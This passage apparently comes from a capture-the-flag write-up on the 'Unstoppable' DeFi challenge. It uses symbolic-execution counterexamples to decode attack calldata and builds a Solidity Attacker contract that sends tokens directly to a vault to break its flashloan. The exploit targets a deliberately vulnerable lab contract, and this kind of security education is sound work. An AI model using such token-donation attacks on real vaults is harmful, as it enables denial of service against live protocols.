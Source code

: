 ```solidity
```
Now we've gotten rid of the recursive counterexamples and have only meaningful one.

### Calldata analysis

We already know that the attack is based on some transaction to the `token` address
```solidity
0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa0003000000000000000000000000000000000000000000000000743133125f0000010000000000000000000000000000000000000000000000000000000000000000
```
It is easy to reveal the exact function and its parameters by using the **cast** command-line tool, provided by Foundry:
```bash
 cast 4byte-decode 0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa0003000000000000000000000000000000000000000000000000743133125f0000010000000000000000000000000000000000000000000000000000000000000000
 1) "transfer(address,uint256)"
 0x00000000000000000000000000000000aaaA0003
 8372529336254726145 [8.372e18]                                   
```
Let's break down this calldata step by step:
```bash
 1) "transfer(address,uint256)"
```
So, this is just an **ERC20** `transfer()` function.
```bash
0x00000000000000000000000000000000aaaA0003
```
Obviously, this is the address of the vault contract.
```bash
 8372529336254726145 [8.372e18]
```
And the last parameter is amount to send.
As a result, we clarified everything: Attacker sends some tokens to `vault` contract and it should lead to flashloan error.
## Using of counterexample 
First of all, let's find all contract addresses in **forge**. We'll use the same console logging here and this is what we got:
```bash
~$ forge test -vv --mp test/unstoppable/Unstoppable.t.sol
...
Logs:
token          0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b
vault          0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264
monitor        0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5
  ...
```
Implement non-symbolic attacker contract:
```solidity

pragma solidity =0.8.25;

import "halmos-cheatcodes/SymTest.sol";;
import "forge-std/Test.sol";

contract Attacker is Test, SymTest {
	function attack() public {
        address target = address(0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b);
        bytes memory data = hex"a9059cbb0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264000000000000000000000000000000000000000000000000743133125f0000010000000000000000000000000000000000000000000000000000000000000000";
        target.call(data);
    }
}
```